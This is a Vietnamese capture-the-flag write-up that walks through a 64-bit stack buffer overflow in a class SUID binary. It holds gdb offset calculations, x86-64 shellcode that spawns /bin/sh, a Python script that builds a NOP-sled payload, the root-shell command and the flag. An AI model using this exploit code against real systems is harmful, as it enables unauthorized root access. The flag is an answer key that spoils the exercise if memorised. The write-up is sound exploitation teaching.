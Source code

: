 # EXTRA CREDIT - CYBERCLASS


<p align="center">
  <img src="image/a.png"  alt="meo coding logo" style="height: 100px; width:100px;"  />
</p>

<p align="center"> <b> Write up by: Zunn</b></p> 

## **Contents**

- [Introduction](#Introduction)
- [Address the problem](#address-the-problem)
  - [GDB](#gdb-secret)
  - [shellcode](#shellcode)
  - [Nopsled](#nopsled)
- [Flag](#flag)

## **Introduction**

- Công cụ em sử dụng để debug là *gdb (plugin peda)*
- Mã khai khác em viết bằng code *python* .

![alt text](image/de.png "Title")

![alt text](image/2.png "Title")

Đề bài cho ta 1 file **executable** và được chạy dưới quyền **suid**, nhiệm vụ phải lon ton lên root để tìm được **flag**. Đầu tiên chạy file **executable** xem có gì trong đó nào...

## **Address the problem**

![alt text](image/3.png "Title")

Hmmmm.....có vẻ như chương trình chỉ in ra lại những gì đã được nhập vào và không còn thông tin nào thêm. Tuy nhiên, ta sẽ bắt đầu tìm hiểu file binary bằng cách in ra xâu có độ dài khá lớn.

```r
  python3 -c "print( 'a' * 10000)" | ./secret
```

![alt text](image/4.png "Title")

`Segmentation fault` :3 Quả nhiên secret bị crash với test của chúng ta. Dễ dàng nhận thấy lỗ hổng stack base `buffer overflow` rất rõ ràng. 

### **GDB secret**

Để thuận tiện hơn ta sẽ tạo một file  **a.txt** để chứa xâu ta cần nhập và ta dùng echo để ghi đè dữ liệu vào.

```r
echo'padding = 100 * 'a'
print (padding)'> a.py
```

```r
python3 a.py> a.txt
```

Giờ thì mở **gdb** lên để phân tích.

![alt text](image/5.png "Title")

Nhìn vào ta thấy chỗ tốt nhất để **break point** là leave trước return **istruction**. Dòng thứ hai từ dưới main lên.

![alt text](image/6.png "Title")

Sau khi run, dựa vào info name ta xác định được đây là [64-bit Stack-based Buffer Overflow](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/64-bit-stack-based-buffer-overflow) và `rip at 0x7fffffffe5b8`

Để tìm buffer’s size, một trong những cách ta có thể dùng sẽ lấy `rip - rsp` . Dùng câu lệnh sau để show 24wx từ vị trí đầu stack.

```r
x/24wx $rsp
```

![alt text](image/8.png "Title")

Dòng đầu tiên ta thấy địa chỉ `0x7fffffffe1b0` mang giá trị `0x61616161` : kí tự `a` bé. Đây chính là đầu vào của chúng ta, yeye đã biết địa chỉ đầu stack giờ ta tính **buffer’s size**.

```r
 p/d 0x7fffffffe5b8 - 0x7fffffffe1b0
```

![alt text](image/9.png "Title")

Vậy **buffer's size** sẽ là 1032 kí tự *a*.

### **Shellcode**

Chuyện gì sẽ xảy ra nếu như ta thay đổi thanh ghi **RIP** thành địa chỉ Shellcode, rõ ràng, chương trình sẽ chạy Shellcode của chúng ta rồi. Thú vị rồi đây.

Khá là đầy đủ thông tin,  giờ ta tiến hành tìm một đoạn shellcode trên **Google** (shell-storm, exploit-db, packetstormsecurity,..). Có kha khá khác nhau để code shell nhưng em sẽ dùng cách **`padding + RIP + NOP + shellcode`**

`Shellcode: Là đoạn code mà chúng ta muốn chương trình execute.`

Dựa vào các thông tin như: 64 bit và file binary chạy dưới quyền **suid**. Vậy shellcode sẽ thực thi **/bin/sh** thì chúng ta sẽ get a root shell. Ok!! Giờ thì ta lên [Shell-strom](http://shell-storm.org/shellcode/#:~:text=by%20Christina%20Quast-,Intel%20x86%2D64,-Linux/x86%2D64) tìm thôiiiiiiii.

Sau khi tìm kiếm và xem xét điều kiện cần và đủ shell code này là phù hợp:

```r
\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05
```

## **Nopsled**

`Nopsled: 0x90 nghĩa là không thực hiện điều gì`

Về cơ bản, không có thao tác nào được sử dụng để đảm bảo rằng việc khai thác của chúng ta không bị lỗi, bởi vì chúng ta không phải lúc nào cũng trỏ đến đúng địa chỉ.Vì vậy chúng ta thêm những thứ không có tác dụng gì và chúng ta trỏ đến chúng, sau đó khi chương trình thực thi nó. Và quaoo sẽ tiếp cận các NOP đó và tiếp tục thực thi cho đến khi nó đạt đến shellcode.

Giờ ta buid code thoi

```r
import struct
offset = 1032
shellcode = b'\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05'
NOP = b'\x90' * 1000
padding = 1032 * b'a'
print (padding + RIP + NOP + shellcode)
```

`Trong quá trình code ta nhận thấy hoặc giờ em mới thấy :))`

[TypeError: can only concatenate str (not "bytes") to str ](
https://bobbyhadz.com/blog/python-typeerror-can-only-concatenate-str-not-bytes-to-str#:~:text=The%20Python%20%22TypeError%3A%20can%20only,string%20before%20concatenating%20the%20strings
)

Giờ chúng ta sẽ gdb để kiểm tra và chọn địa chỉ của NOP ( tốt nhất là nó nằm ở giữa )

![alt text](image/10.png "Title")

Hmmmmmmmm.... chúng ta đang lỗi gì đó dấu '`>`' không chuyển được kí tư utf-8. Giờ ta sẽ nhập xuất file xem như thế nào

```r
import struct
offset = 1032
shellcode = b'\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05'
NOP = b'\x90' * 1000
padding = 1032 * b'a'
p = (padding + NOP + shellcode)
file = open('a.txt' ,'wb')
file.write(p)
file.close()
```

![alt text](image/12.png "Title")

Excute file python thoi -> `python3 a.py > a.txt` và xác định NOP.

![alt text](image/13.png "Title")

Ye rất đúng theo suy nghĩ của chúng ta. Vì shell code chúng ta nằm ở cuối nên ta sẽ in từ vị trí rsp

```r
(gdb) x/100xg $rbp
```
![alt text](image/14.png "Title")

![alt text](image/15.png "Title")

Ta sẽ lấy NOP ở giữa  `0x7fffffffe710` để tránh chênh lệch khi chương trình thực thi. Sau khi có đầy đủ mọi thứ ta sẽ hoàn chỉnh chương trình như sau:

```r
import struct
offset = 1032
RIP = struct.pack('Q',0x7fffffffe710)
shellcode = b'\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05'
NOP = b'\x90' * 1000
padding = 1032 * b'a'
p = (padding + RIP + NOP + shellcode)
file = open('a.txt' ,'wb')
file.write(p)
file.close()
```

Tiến hành chạy lại secret xem có lên được shell hay không?

 ```r
 (cat a.txt ; cat) | ./secret
 ```

![alt text](image/16.png "Title")

Okie, code exploit đã chạy và chúng ta đạ execute shellcode thành công. Thế là ta đã thành công lkhai tháo lỗi Buffer Overflow rồi. Giờ lấy flag thoiii!!

## **Flag**

![alt text](image/17.png "Title")

Ta đã leo lên root nên chỉ cần  `cd /root` ta sẽ thấy file tên `flag-whoa.txt` .UwwwwU `cat flag-whoa.txt` ta dễ dàng có được kết quả mong muốn.

 ```r
 CYBERCLASS{WHOA-BAN-DINK-KOUT-WA-CHUC-MUNG-BAN-!!!}
 ```
